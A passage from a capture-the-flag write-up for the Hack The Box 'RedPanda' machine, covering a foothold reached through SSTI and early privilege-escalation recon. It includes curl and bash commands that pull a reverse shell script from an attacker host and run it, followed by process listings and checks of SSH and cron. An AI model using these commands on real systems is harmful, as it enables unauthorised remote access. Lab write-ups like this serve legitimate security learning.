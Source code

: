 ```bash
id
```

```
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
```

So, with this we have to upload reverse shell on the machine. We prepare our reverse shell file with [revshells.com](https://www.revshells.com/), I've choosed simple `Bash` here. Then, we set up a simple web server, listener and execute these commands on the machine by converting them with ssti-payload:

```bash
curl http://<YOUR_IP>:<YOUR_PORT>/reverse_shell.sh -o /tmp/reverse_shell.sh
bash /tmp/revese_shell.sh
```

Now we have more privileges, let's explore! 

If we check `processes`, we can see why we've got more privileges than ssh user.

```bash
ps aux
```

```
... output ...
root         874  0.0  0.1   6812  3060 ?        Ss   Jul15   0:00 /usr/sbin/cron -f
root         875  0.0  0.1   8356  3384 ?        S    Jul15   0:00 /usr/sbin/CRON -f
root         879  0.0  0.0   2608   596 ?        Ss   Jul15   0:00 /bin/sh -c sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
root         880  0.0  0.2   9424  4640 ?        S    Jul15   0:00 sudo -u woodenk -g logs java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
root         881  0.0  0.3  12172  7328 ?        Ss   Jul15   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
woodenk      888  0.7 12.4 3124848 251856 ?      Sl   Jul15   2:40 java -jar /opt/panda_search/target/panda_search-0.0.1-SNAPSHOT.jar
...output ...
```

Web application is runned by root with setting up `woodenk` user and `logs` group. We note that `cron` and `ssh` are running on the machine. Let's check if root login is allowed:

![PermitRootLogin](/assets/hackthebox/redpanda/permit_root_login.png)

Also, if we list `/opt/` directory, we can find a script called `cleanup.sh`.

![opt Directory](/assets/hackthebox/redpanda/opt_dir.png)
